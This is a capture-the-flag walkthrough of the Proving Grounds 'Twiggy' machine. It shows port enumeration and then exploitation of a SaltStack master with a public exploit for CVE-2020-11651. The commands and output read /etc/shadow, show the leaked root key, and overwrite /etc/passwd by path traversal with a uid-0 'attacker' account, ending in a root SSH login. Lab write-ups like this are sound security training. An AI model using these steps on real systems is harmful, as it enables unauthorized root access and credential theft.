

# Twiggy 
Proving Grounds Play

## Enumeration
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
8000/tcp open  http    nginx 1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

```


### Port 22 SSH
Version - OpenSSH 7.4 
This does not appear to be vulnerable.

### Port 53 DNS
Version - NLnet Labs NSD
I ran the below commands but I did not get much information.
```
└─$ host 192.168.156.62
Host 62.156.168.192.in-addr.arpa. not found: 3(NXDOMAIN)
```

```
└─$ nslookup                       
> 192.168.156.62
** server can't find 62.156.168.192.in-addr.arpa: NXDOMAIN
```


### Port 80 HTTP
Version - nginx 1.16.1
I did not find any directories on the webserver. 

```
sudo wfuzz -c -f sub-fighter.txt -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --sc 200,202,204,302,307,403 http://192.168.156.62/FUZZ     

[sudo] password for storm: 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.156.62/FUZZ
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                         
=====================================================================

```


### Port 4505 ZMTP
Version - ZeroMQ ZMTP 2.0
This does not appear to be vulnerable

### Port 8000 HTTP
Version - nginx 1.16.1
Mezzanine and Django - https://www.exploit-db.com/exploits/40799 (This is a possible exploit for the website running o n the target machine)


```
└─$ sudo wfuzz -c -f sub-fighter.txt -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --sc 200,202,204,302,307,403 http://192.168.156.62:8000/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.156.62:8000/FUZZ
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                         
=====================================================================

000000110:   200        0 L      6 W        43 Ch       "login"                         
000002830:   200        0 L      12 W       146 Ch      "index"                         

Total time: 39.95864
Processed Requests: 4989
Filtered Requests: 4987
Requests/sec.: 124.8540


```

This might be vulnerable to SaltStack, https://www.exploit-db.com/exploits/48421



## Exploit
I found that the machine is vulnerable to this exploit, https://www.exploit-db.com/exploits/48421, and I can see that the version matches the version shown in the headers from the webserver running on port 8000. I ran the below commands but I did not have any success, however I did find a root password hash. Using John the ripper, I was not able to crack the password. 


```
└─$ python3 exploit.py --master 192.168.156.62 -r /etc/shadow                         
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/storm/.local/lib/python3.11/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Salt version: 3007.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.156.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... 
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=
[+] Attemping to read /etc/shadow from 192.168.156.62
root:$6$WT0RuvyM$WIZ6pBFcP7G4pz/jRYY/LBsdyFGIiP3SLl0p32mysET9sBMeNkDXXq52becLp69Q/Uaiu8H0GxQ31XjA8zImo/:18400:0:99999:7:::
bin:*:17834:0:99999:7:::
daemon:*:17834:0:99999:7:::
adm:*:17834:0:99999:7:::
lp:*:17834:0:99999:7:::
sync:*:17834:0:99999:7:::
shutdown:*:17834:0:99999:7:::
halt:*:17834:0:99999:7:::
mail:*:17834:0:99999:7:::
operator:*:17834:0:99999:7:::
games:*:17834:0:99999:7:::
ftp:*:17834:0:99999:7:::
nobody:*:17834:0:99999:7:::
systemd-network:!!:18400::::::
dbus:!!:18400::::::
polkitd:!!:18400::::::
sshd:!!:18400::::::
postfix:!!:18400::::::
chrony:!!:18400::::::
mezz:!!:18400::::::
nginx:!!:18400::::::
named:!!:18400::::::
```


```
└─$ unshadow passwd.txt unshadow.txt > myunshadowedtext.txt

                                                                                                 
┌──(storm㉿kali)-[~/Documents/Machines/Twiggy]
└─$ cat myunshadowedtext.txt 
root:$6$WT0RuvyM$WIZ6pBFcP7G4pz/jRYY/LBsdyFGIiP3SLl0p32mysET9sBMeNkDXXq52becLp69Q/Uaiu8H0GxQ31XjA8zImo/:0:0:root:/root:/bin/bash


└─$ john --wordlist=/usr/share/wordlists/rockyou.txt myunshadowedtext.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 0.04% (ETA: 11:14:52) 0g/s 3091p/s 3091c/s 3091C/s shearer..aditya
0g 0:00:02:03 2.29% (ETA: 11:16:39) 0g/s 3116p/s 3116c/s 3116C/s valeria8..umbrella!
0g 0:00:04:26 5.04% (ETA: 11:15:11) 0g/s 3111p/s 3111c/s 3111C/s pepitilla..penink
0g 0:00:05:59 6.83% (ETA: 11:14:46) 0g/s 3107p/s 3107c/s 3107C/s 1332409..13151820
0g 0:00:06:06 6.96% (ETA: 11:14:46) 0g/s 3107p/s 3107c/s 3107C/s zufrieden..zponha
0g 0:00:08:27 9.85% (ETA: 11:12:55) 0g/s 3103p/s 3103c/s 3103C/s lilxman..lilti1
0g 0:00:10:14 12.03% (ETA: 11:12:14) 0g/s 3099p/s 3099c/s 3099C/s conor1234..conlon7511
0g 0:00:11:10 13.17% (ETA: 11:11:54) 0g/s 3098p/s 3098c/s 3098C/s abc643..abbyian
0g 0:00:14:38 17.37% (ETA: 11:11:24) 0g/s 3088p/s 3088c/s 3088C/s worship41..wormson1
0g 0:00:17:28 21.05% (ETA: 11:10:08) 0g/s 3081p/s 3081c/s 3081C/s thundermaxpower..thunder5514
0g 0:00:19:58 24.39% (ETA: 11:09:01) 0g/s 3074p/s 3074c/s 3074C/s smexibabi..smengols
0g 0:00:24:17 30.01% (ETA: 11:08:03) 0g/s 3067p/s 3067c/s 3067C/s pzikopatha..pyuput
0g 0:00:34:59 44.01% (ETA: 11:06:38) 0g/s 3055p/s 3055c/s 3055C/s kytuky..kysho1
0g 0:00:39:54 50.29% (ETA: 11:06:29) 0g/s 3054p/s 3054c/s 3054C/s iqmalhaikal..iqa060786
0g 0:00:42:37 53.95% (ETA: 11:06:08) 0g/s 3052p/s 3052c/s 3052C/s gottagotta..gotpole
0g 0:00:45:12 57.34% (ETA: 11:05:58) 0g/s 3051p/s 3051c/s 3051C/s erisel..erinwd_91
0g 0:00:46:51 59.46% (ETA: 11:05:56) 0g/s 3051p/s 3051c/s 3051C/s dlgemar..dleedavis
0g 0:00:51:22 65.42% (ETA: 11:05:40) 0g/s 3049p/s 3049c/s 3049C/s bunnychef5..bunnyXD
0g 0:00:52:57 67.48% (ETA: 11:05:36) 0g/s 3048p/s 3048c/s 3048C/s bermuda21..berllex
0g 0:01:02:12 79.38% (ETA: 11:05:30) 0g/s 3047p/s 3047c/s 3047C/s BUTHOLE12..BUSEHAM
0g 0:01:04:12 81.97% (ETA: 11:05:28) 0g/s 3048p/s 3048c/s 3048C/s 863127..862872540
0g 0:01:10:31 89.37% (ETA: 11:06:03) 0g/s 3047p/s 3047c/s 3047C/s 2199397..219786
0g 0:01:18:32 DONE (2024-06-06 11:05) 0g/s 3043p/s 3043c/s 3043C/s  naptown410..*7¡Vamos!
Session completed. 
                                                                                                 
┌──(storm㉿kali)-[~/Documents/Machines/Twiggy]
└─$ john --show myunshadowedtext.txt                                     
0 password hashes cracked, 1 left

```


I found that I could upload a /etc/passwd file, so I created a password and assigned it to a user that I created. After running the exploit again to upload the new passwd file, I can login via ssh with the new user.

attacker:$1$9N7udc86$Tv07Ou4kKX17tOtPCOFrv/:0:0:root:/root:/bin/bash

```
└─$ python3 exploit.py --master 192.168.248.62 --upload-src passwd --upload-dest ../../../../../../etc/passwd
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/storm/.local/lib/python3.11/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Salt version: 3007.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.248.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... 
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=
[+] Attemping to upload passwd to ../../../../../../etc/passwd on 192.168.248.62
[ ] Wrote data to file /srv/salt/../../../../../../etc/passwd

```

```
└─$ ssh attacker@192.168.248.62                                                                           
attacker@192.168.248.62's password: 
Last failed login: Thu Jun  6 11:34:31 EDT 2024 from 192.168.45.198 on ssh:notty
There were 4 failed login attempts since the last successful login.
[root@twiggy ~]# id
uid=0(root) gid=0(root) groups=0(root)

```

### Root Flag 
```
[root@twiggy ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@twiggy ~]# ls
proof.txt
[root@twiggy ~]# cat proof.txt
```
